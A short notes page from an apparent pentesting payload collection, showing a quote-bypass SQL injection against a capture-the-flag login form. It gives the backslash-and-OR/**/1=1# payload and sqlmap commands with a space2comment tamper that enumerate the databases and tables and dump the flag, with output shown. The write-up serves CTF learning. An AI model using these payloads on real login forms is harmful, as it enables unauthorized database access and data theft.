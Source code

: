 ```yaml
---
title: SQL injection bypass quote
sidebar: mydoc_sidebar
permalink: sqli-bypass-quote.html
folder: Payloads
---
```


Need to read:
- <https://mukarramkhalid.com/without-quotes-string-based-sql-injection/>
- <https://github.com/lngthvinh/JUNIOR-HACKING-TALENT-2021/tree/main/%5BChung%20K%E1%BA%BFt%5D%20Web/400%20-%20C%E1%BB%ADa%20h%C3%A0ng%20%C4%91%E1%BB%93%20ch%C6%A1i%20Qu%E1%BA%ADn%204>

Example: JUNIOR HACKING TALENT 2021 - Cửa hàng đồ chơi Quận 4

Bypass Payload

```mysql
select username from users where username='\' and password='OR/**/1=1#'
```

Final Payload

```
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py --dbs
...
available databases [2]:
[*] information_schema
[*] myDB
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB --tables
...
[7 tables]
+---------------+
| authors       |
| flag_304ad593 |
| posts         |
| roles         |
| user_post     |
| user_role     |
| users         |
+---------------+
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB -T flag_304ad593 --dump
...
[1 entry]
+-------------------------------------+
| flag_3e53dc                         |
+-------------------------------------+
| CTF{pleAs3_doNt_r3invent_th3_whe3L} |
+-------------------------------------+
...
```
